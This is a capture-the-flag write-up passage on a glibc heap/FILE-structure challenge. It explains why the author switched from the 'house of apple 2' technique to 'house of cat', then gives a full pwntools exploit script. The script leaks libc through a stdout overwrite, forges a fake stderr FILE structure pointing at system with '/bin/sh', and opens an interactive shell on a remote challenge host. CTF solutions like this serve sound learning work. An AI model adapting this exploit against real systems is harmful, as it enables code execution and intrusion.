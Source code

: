 ### exploit
After that, we can do a classic `house of` attack. At first, I tried house of apple 2 technique (as shown in the commented code below), but it didn't work. This is because in house of apple 2, we set the flag field to literal "  sh;" (with two space at the beginning), but `scanf` fails to read in the whitespaces. With some research, I found that [house of cat](https://bbs.kanxue.com/thread-273895.htm) can control the flag field with `/bin/sh\x00` (without leading spaces), so I switched to house of cat technique and it worked.

### exp
```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")
# p = process("./chall")
p = remote("34.252.33.37", 32553)
libc  = ELF("./libc.so.6")
p.recvuntil("stdout:\n")
p.sendline(p64(0xfbad1800)+p64(0)*3)
p.recv(0x28)
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("libc_leak: " + hex(libc_leak))
libc_base = libc_leak - 0x2038e0
log.info("libc_base: " + hex(libc_base))
stderr_addr = libc_base + libc.symbols["_IO_2_1_stderr_"]
log.info("stderr_addr: " + hex(stderr_addr))
# fake_io_file = b"  sh;".ljust(0x8, b"\x00")
# fake_io_file += p64(0)*3 + p64(0) + p64(2)
# fake_wfile_addr = stderr_addr - 0x10
# fake_io_file = fake_io_file.ljust(0x68, b"\x00") + p64(libc_base + libc.symbols["system"])
# fake_io_file = fake_io_file.ljust(0x88, b"\x00") + p64(0x205700 + libc_base)
# fake_io_file = fake_io_file.ljust(0xa0, b"\x00") + p64(fake_wfile_addr)
# fake_io_file = fake_io_file.ljust(0xd0, b"\x00") + p64(stderr_addr)

# fake_io_file += p64(libc_base + 0x202228)
fake_wfile_addr = stderr_addr - 0x20
fake_io_file = b"/bin/sh\x00".ljust(0x8, b"\x00") + p64(0)*2
fake_io_file += p64(libc_base + libc.symbols["system"])
fake_io_file = fake_io_file.ljust(0x88, b"\x00") + p64(libc_base + 0x205700)
fake_io_file = fake_io_file.ljust(0xa0, b"\x00") + p64(fake_wfile_addr)
fake_io_file = fake_io_file.ljust(0xc0, b"\x00") + p64(stderr_addr)
fake_io_file = fake_io_file.ljust(0xd8, b"\x00") + p64(libc_base + 0x202228 + 0x30)
# gdb.attach(p)
# pause()
p.recvuntil("stderr:")
p.sendline(fake_io_file)
p.interactive()
```

### P.S

plz checkout [my boyfriend's writeup](https://jia.je/ctf-writeups/2025-09-07-blackhat-mea-ctf-quals-2025/file101.html)! He claims his coding style is better than mine lol >_<
